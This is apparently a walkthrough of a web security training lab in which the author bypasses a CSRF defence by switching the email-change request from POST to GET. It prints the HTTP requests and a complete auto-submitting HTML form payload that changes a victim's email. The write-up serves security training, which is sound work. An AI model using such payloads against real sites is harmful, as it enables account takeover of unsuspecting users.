 # Lab.2 CSRF where token validation depends on request method

## Challenge

 This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution

First I open the lab, and go to the site, where I login with my creds `wiener` and change the email.

I send this `POST` request to the Burp Repeater, and there I see the `csrf` token.

```http
POST /my-account/change-email HTTP/2
...

email=test%40test.test&csrf=1k1F8gwWzXNpI5tO6O7wun23DxDbt7O1
```

If I change the csrf token I got a `400 Bad Request`.

Let's try to turn this into a `GET` Method.

There I could send the request with the following header:

```http
GET /my-account/change-email?email=ss%40ss.SS&csrf=1k1F8gwWzXNpI5tO6O7wun23DxDbt7Oe HTTP/2
```

And I got a `302 Found` and the address got changed. And also the `csrf` is modified from the original one.

This works even if I remove the `csrf token` completely.

So, now let's go to our exploit server, and put the following in the body:

```html
<form action="https://0ab200f70393ce7582a7b587004e0072.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="pwned&commat;vatraSec&period;net" />
</form>
<script>
        document.forms[0].submit();
</script>
```

So, this will use a `GET` method, to change the email of the victim user.

NOTE: You must be careful, to encode the email to `HTML Entity` otherwise it will not work. And the lab is solved!
